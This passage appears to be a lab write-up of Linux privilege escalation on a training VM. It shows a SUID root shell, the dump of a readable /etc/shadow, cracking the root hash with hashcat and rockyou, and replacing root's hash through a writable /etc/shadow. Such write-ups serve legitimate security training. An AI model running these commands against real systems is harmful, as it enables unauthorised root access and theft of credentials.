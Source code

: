 ```console
$ /tmp/rootbash -p
rootbash-4.1# whoami
root
rootbash-4.1# rm /tmp/rootbash
```

damnnnnn. The last command is removeing the the script. dont for get to romove it guys!!

# TASK 3: Weak File Permissions - Readable /etc/shadow 
```console
user@debian:~$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```
on my kali
```console
kali@kali:~/LinuxPrivEsc$ echo "root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::" > root.txt
kali@kali:~/LinuxPrivEsc$ hashcat -a 0 -m 1800 -o cracked.txt root.txt /usr/share/wordlists/rockyou.txt --force
kali@kali:~/LinuxPrivEsc$ cat cracked.txt 
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:XXXXXXXXXXX
```
find out what XXXXXXXX is :P. GLHF

# Weak File Permissions - Writable /etc/shadow 
```console
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```
damn we have write permission
```console
user@debian:~$ mkpasswd -m sha-512 kurohatwashere
$6$G5cFZMg03v81$/MHuRxqSlP8yFCqHOFIfQRXPwsor32wwUoPdE791lONV7YaviZQKi830I0TLuGj/kOj6OO9XI78Vx4CpYUGST0
user@debian:~$ nano /etc/shadow # replace root password (from 1st : to 2nd :) with the generated password
```